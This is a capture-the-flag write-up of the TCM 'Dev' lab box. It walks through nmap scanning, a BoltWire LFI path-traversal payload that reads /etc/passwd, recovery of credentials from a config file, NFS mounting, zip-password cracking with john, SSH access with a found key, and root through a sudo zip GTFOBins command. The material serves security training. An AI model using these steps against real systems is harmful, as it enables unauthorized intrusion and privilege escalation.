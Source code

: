 ```yaml
---
title: Dev (TCM)

date: "2023-12-28"

author: "MatDef"

---
```


# Description:
- NONE
 
# Information Gathering

## Enumeration

### nmap
```bash
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35587/tcp6  mountd
|   100005  1,2,3      50697/tcp   mountd
|   100005  1,2,3      52252/udp6  mountd
|   100005  1,2,3      56976/udp   mountd
|   100021  1,3,4      34527/tcp6  nlockmgr
|   100021  1,3,4      35475/tcp   nlockmgr
|   100021  1,3,4      38742/udp   nlockmgr
|   100021  1,3,4      39771/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
35475/tcp open  nlockmgr 1-4 (RPC #100021)
38117/tcp open  mountd   1-3 (RPC #100005)
39221/tcp open  mountd   1-3 (RPC #100005)
50697/tcp open  mountd   1-3 (RPC #100005)
```
## Port 8080: http
Boltwire (6.03) - LFI Exploit
`/dev/index.php?p=action.search&action=../../../../../../../etc/passwd`
```shell
jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash
```
## Port 80: http
```shell
/public               (Status: 301) [Size: 317] [--> http://192.168.111.13/public/]
/src                  (Status: 301) [Size: 314] [--> http://192.168.111.13/src/]
/app                  (Status: 301) [Size: 314] [--> http://192.168.111.13/app/]
/vendor               (Status: 301) [Size: 317] [--> http://192.168.111.13/vendor/]
/extensions           (Status: 301) [Size: 321] [--> http://192.168.111.13/extensions/]

```
Username + Password found
`config .yml` in /app/config: Sqlite `bolt:I_love_java`

## Port 2049 NFS_ACL
Check for network mountable: `showmount -e 192.168.111.13`
Mounting: `mount -t nfs 192.168.111.13:/srv/nfs /mnt/share -o nolock`
Found save.zip with password : 
- `zip2john save.zip > ziphash`
- `john ziphash` -> `java 101`
- Content:
todo.txt
```shell
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome
jp
```
id_rsa (OPENSSH Private Key)

# Exploitation
With id_rsa connection via ssh:
```shell
chmod 600 id_rsa
ssh -i id_rsa jeanpaul@192.168.111.13
```
Password the same as Sqlite DB : `I_love_java`
Access to `Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux`:
`sudo -l`
```shell
User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```
Gtfo_BINS:
```shell
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
updating: etc/hosts (deflated 31%)
# whoami
root
# cat flag.txt
Congratz on rooting this box !
```

---

### References & Further Research
- [gtfobins_zip](https://gtfobins.github.io/gtfobins/zip/)
